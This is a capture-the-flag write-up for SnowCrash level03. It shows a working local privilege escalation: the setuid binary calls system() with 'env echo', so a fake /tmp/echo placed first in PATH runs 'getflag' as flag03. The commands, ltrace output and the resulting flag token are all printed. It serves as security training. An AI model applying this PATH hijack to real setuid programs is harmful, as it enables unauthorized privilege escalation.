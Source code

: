 # Level03


# Context

after login with user `level03` end up with a executeable file named `level03`

```
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$
```

# Steps to repreduce
if you go a head and execute the excuteabel
```
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```

I tried to use `file` command to check the type of the file and get some information about if
```
level03@SnowCrash:~$ file level03
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
level03@SnowCrash:~$
```
as we can see the file is an executable compailed with `gcc`.

now I have to find a way so I can reverse this file to source code.

while searching I found 3 main tools that can help me to atchive what I want `ltrace`, `strace`, and `gdb`.

for me I used `ltrace`, `ltrace` simply logged library functions that the program called and received.

```
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7a4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                                           = 2003
geteuid()                                                                                                           = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                 = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                 = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                              = 0
+++ exited (status 0) +++
level03@SnowCrash:~$
```

as you can see the program called some functions the first 4 functions will not help us so I will just ignore them but `system("/usr/bin/env echo Exploit me"Exploit me` the program call `system` this fuction passes the command (it's param) to the system enviermomnet to be excuted.

so in other words if I found out a way so I can change the `echo` command to exected what I want instead of normal echo behaver I can get the flag.

well that's exactly what I did.

simply I wll try to get the privilege  of the user `flag03` whit changing the built-in echo behavier.

as you can see the user of this file is `flag03`
```
level03@SnowCrash:~$ ls -la level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$
```

so this time I don't need to login with user then run the command `getflag` I will make him run it for me.

first I will create a tmp file named `/tmp/echo` then inside it `echo getflag`

```
echo getflag > /tmp/echo
```

then make the `/tmp/echo` file executeable by running this command
```
chmod +x /tmp/echo
```

finaly and most important step is add my file to env variable `$PATH`
```
export PATH=/tmp:$PATH
```

so the final command will be:
```
echo getflag > /tmp/echo && chmod +x /tmp/echo && export PATH=/tmp:$PATH
```

now my `PATH` variable:
```
level03@SnowCrash:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level03@SnowCrash:~$
```

so let's rerun the program again:
```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$
```

et voila.
